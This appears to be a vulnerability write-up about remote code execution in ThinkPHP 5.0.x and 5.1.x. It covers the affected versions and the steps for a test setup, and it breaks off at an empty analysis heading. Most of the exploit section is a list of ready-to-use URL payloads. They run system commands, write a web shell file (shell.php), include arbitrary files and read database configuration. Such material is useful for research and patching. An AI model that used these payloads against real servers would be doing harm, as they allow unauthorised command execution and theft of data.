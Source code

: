 # ThinkPHP5 Remote Code Execution 1

Author: H3rmesk1t

Data: 2021.08.16

# Vulnerability Summary
- This vulnerability exists in ThinkPHP. The underlying layer does not perform good legality verification on the controller name, resulting in the user being able to call any method of any class without turning on the forced routing, which ultimately leads to the occurrence of remote code execution vulnerability.
- Vulnerability impact version:
5.0.7<=ThinkPHP5<=5.0.22, 5.1.0<=ThinkPHP<=5.1.30

# Initial configuration

Get the test environment code

```bash
composer create-project --prefer-dist topthink/think tpdemo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/136afc6c7ce54d68a8fd6f71227d7359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

```bash
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

Then execute `composer update`

![Insert the picture description here](https://img-blog.csdnimg.cn/83651621b82d4bf79a0aca3f728407e8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# Vulnerability Exploit

Payload

```bash
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.0.x
?s=index/think\config/get&name=database.username # Get configuration information
?s=index/\think\Lang/load&file=../../test.jpg # Contains any file
?s=index/\think\Config/load&file=../../t.php # Contains any .php file
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
![Insert the picture description here](https://img-blog.csdnimg.cn/742c864af6c245ddbca83f60bcc3be17.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis
